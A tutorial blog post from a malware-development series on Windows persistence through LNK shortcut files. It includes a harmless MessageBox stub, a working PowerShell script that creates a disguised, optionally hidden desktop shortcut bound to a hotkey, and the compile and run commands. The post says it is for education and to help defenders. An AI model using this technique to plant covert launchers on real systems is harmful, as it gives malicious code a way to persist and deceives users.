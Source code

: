 ```yaml
---
title:  "Malware development: persistence - part 23. LNK files. Simple Powershell example."
date:   2023-12-10 03:00:00 +0300
header:
  teaser: "/assets/images/112/2023-12-11_01-01_1.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/112/2023-12-11_01-01_1.png){:class="img-responsive"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via Windows LNK files.     

### LNK

According to [Microsoft](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943), an `LNK` file serves as a shortcut or "link" in Windows, providing a reference to an original file, folder, or application. For regular users, these files serve a meaningful purpose, facilitating file organization and workspace decluttering. However, from an attacker's perspective, `LNK` files take on a different significance. They have been exploited in various documented attacks by APT groups and, to my knowledge, remain a viable option for activities such as phishing, establishing persistence, executing payloads.     

Do you know that Windows shortcuts can be registered using a shortcut key in terms of execution? This is the main trick for malware persistence in this case.    

### practical example

Let's say we have a "malware". As usually, `meow-meow` messagebox application `hack.c`:    

```cpp
/*
hack.c
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/12/10/malware-pers-23.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And then, just create powershell script for create `LNK` file with the following properties:     

```powershell
# Define the path for the shortcut on the desktop
$shortcutPath = "$([Environment]::GetFolderPath('Desktop'))\Meow.lnk"

# Create a WScript Shell object
$wshell = New-Object -ComObject Wscript.Shell

# Create a shortcut object
$shortcut = $wshell.CreateShortcut($shortcutPath)

# Set the icon location for the shortcut
$shortcut.IconLocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"

# Set the target path and arguments for the shortcut
$shortcut.TargetPath = "Z:\2023-12-10-malware-pers-23\hack.exe"
$shortcut.Arguments = ""

# Set the working directory for the shortcut
$shortcut.WorkingDirectory = "Z:\2023-12-10-malware-pers-23"

# Set a hotkey for the shortcut (e.g., CTRL+W)
$shortcut.HotKey = "CTRL+W"

# Set a description for the shortcut
$shortcut.Description = "Not malicious, meow-meow malware"

# Set the window style for the shortcut (7 = Minimized window)
$shortcut.WindowStyle = 7

# Save the shortcut
$shortcut.Save()

# Optionally make the link invisible by adding 'Hidden' attribute
# (Get-Item $shortcutPath).Attributes += 'Hidden'
```

As you can see, the logic is pretty simple. We simply create a shortcut on the desktop that has a hotkey specified: `CTRL+W`. Of course, in real attack scenarios it could be something like `CTRL+C`, `CTRL+V` or `CTRL+P`, etc.    

For example, if you create a shortcut for `Paint`, it does not have any hotkey specified:    

![pers](/assets/images/112/2023-12-09_23-54.png){:class="img-responsive"}    

> Explorer restricts shortcut support to commands beginning with CTRL+ALT. Additional sequences must be set programmatically through COM.    

### demo

Let's go to see everything in action. First of all, compile our "malware":      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/112/2023-12-11_01-28.png){:class="img-responsive"}    

For checking correctness, run it:    

```powershell
.\hack.exe
```

![pers](/assets/images/112/2023-12-11_00-51.png){:class="img-responsive"}    

The just run our powershell script for persistence:    

```powershell
Get-Content pers.ps1 | PowerShell.exe -noprofile -
```

![pers](/assets/images/112/2023-12-11_00-57.png){:class="img-responsive"}    

As a result, Meow LNK file is created successfully.    

If we look at its properties, everything is ok:     

![pers](/assets/images/112/2023-12-11_01-01.png){:class="img-responsive"}    

Finally just run it and try to trigger `CTRL+W` hotkey:     

![pers](/assets/images/112/2023-12-11_01-02.png){:class="img-responsive"}    

![pers](/assets/images/112/2023-12-11_01-05.png){:class="img-responsive"}    

As you can see, everything worked perfectly as expected! =^..^= :)    

This technique is used by APT groups like [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/) and software like [Emotet](https://attack.mitre.org/software/S0367/) in the wild. In all honesty, this method is widely employed and widespread due to its extreme convenience in deceiving the victims.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

Many thanks to my friend and colleague [Anton Kuznetsov](https://twitter.com/yrevichus), he reminded me of this technique when he presented one of his most amazing talks.     

> This is a practical case for educational purposes only.      

[ATT&CK MITRE: T1204.001](https://attack.mitre.org/techniques/T1204/001/)     
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[Emotet](https://attack.mitre.org/software/S0367/)    
[MSDN: Shell Link (.LNK) Binary File Format](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943)     
[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-12-10-malware-pers-23)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
